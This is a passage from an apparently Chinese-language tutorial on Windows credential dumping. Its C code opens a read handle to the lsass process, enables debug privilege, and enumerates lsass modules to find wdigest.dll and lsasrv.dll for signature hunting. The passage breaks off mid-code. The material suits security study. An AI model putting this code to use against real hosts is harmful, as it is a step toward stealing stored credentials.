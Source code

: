 **PROCESS_VM_READ**: Required to read memory in a process using [**ReadProcessMemory**](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-readprocessmemory).

```
HANDLE GrabLsassHandle(int pid) {
	HANDLE procHandle = OpenProcess(PROCESS_QUERY_INFORMATION | PROCESS_VM_READ, FALSE, pid);
	return procHandle;
}
```



## 开启调试权限

```
BOOL EnableDebugPrivilege(BOOL fEnable)
{
	BOOL fOk = FALSE;
	HANDLE hToken;
	if (OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &hToken))
	{
		TOKEN_PRIVILEGES tp;
		tp.PrivilegeCount = 1;
		LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &tp.Privileges[0].Luid);
		tp.Privileges[0].Attributes = fEnable ? SE_PRIVILEGE_ENABLED : 0;
		AdjustTokenPrivileges(hToken, FALSE, &tp, sizeof(tp), NULL, NULL);
		fOk = (GetLastError() == ERROR_SUCCESS);
		CloseHandle(hToken);
	}
	return(fOk);
}
```

**何为[Debug Privilege](https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/debug-privilege)?**

调试特权允许进程调试它们原本无法访问的进程(如系统服务)，默认只有Administrator组成员具有调试特权。比如，进程以Administor权限启动，其Integrity level为high，想遍历Lsass.exe(system integrity)中加载的Dll就需要开启调试特权。

**步骤**

1. OpenProcessToken  以TOKEN_ADJUST_PRIVILEGES的方式打开当前进程令牌
2. AdjustTokenPrivileges 设置令牌中的特权，开启Debug Privilege



## 遍历进程加载的Dll

https://docs.microsoft.com/en-us/windows/win32/psapi/enumerating-all-modules-for-a-process

```
	// Enumerate all loaded modules within lsass process
	if (EnumProcessModules(hLsass, lsassDll, sizeof(lsassDll), &bytesReturned)) {

		// For each DLL address, get its name so we can find what we are looking for
		for (int i = 0; i < bytesReturned / sizeof(HMODULE); i++) {
			GetModuleFileNameExA(hLsass, lsassDll[i], modName, sizeof(modName));

			// Find DLL's we want to hunt for signatures within
			if (strstr(modName, "lsass.exe") != (char*)0)
				lsass = (char*)lsassDll[i];
			else if (strstr(modName, "wdigest.DLL") != (char*)0)
				wdigest = (char*)lsassDll[i];
			else if (strstr(modName, "lsasrv.dll") != (char*)0)
				lsasrv = (char*)lsassDll[i];
		}
	}
	else
	{
```